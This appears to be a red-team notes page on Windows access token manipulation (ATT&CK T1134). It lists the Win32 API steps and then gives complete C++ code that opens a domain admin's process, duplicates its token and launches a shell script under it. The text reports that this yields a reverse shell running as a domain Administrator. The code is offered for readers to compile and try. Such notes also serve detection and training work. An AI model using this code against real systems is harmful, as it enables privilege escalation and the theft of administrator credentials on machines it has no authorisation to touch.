


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is token impersonation by creating a duplicate token of an already existing access token present in one of the running processes on the local host.

The process is as follows:

| Process step | Win32 API |
| :--- | :--- |
| Open a process which has the access token you want to steal. | `OpenProcessToken` |
| Make a duplicate token of the token in the process opened | `DuplicateTokenEx` |
| Create a new process with the newly aquired | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060`, which is a process ID that we want to impersonate aka steal its token, since it is running as a domain admin:




And this is the code if you want to compile and try it yourself:



```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```



Launching the tokens.exe from the powershell console spawns a reverse shell that the we catch on the attacking system. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token impersonation:



## Observations

